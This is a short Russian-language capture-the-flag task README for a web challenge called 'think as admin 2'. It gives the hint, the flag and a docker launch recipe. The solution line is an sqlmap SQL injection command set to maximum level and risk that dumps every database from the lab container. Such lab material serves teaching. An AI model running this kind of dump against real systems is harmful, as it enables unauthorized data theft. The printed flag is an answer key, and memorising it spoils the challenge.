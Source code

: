 # Название: 
think as admin 2

# Категория: 
web

# Сообщение: 
Боб оставил записку на тот случай если у нас ничего не получится

# Флаг: 
yetiCTF{sq1map_1s_super_t00l}

# Решение: 
sqlmap -u http://192.168.1.40:5200/ --data "username=123&password=123" --level=5 --risk=3 --dump-all

# Запуск:
```
	docker build -t sql ./
	docker run -p 5200:5200 sql
```

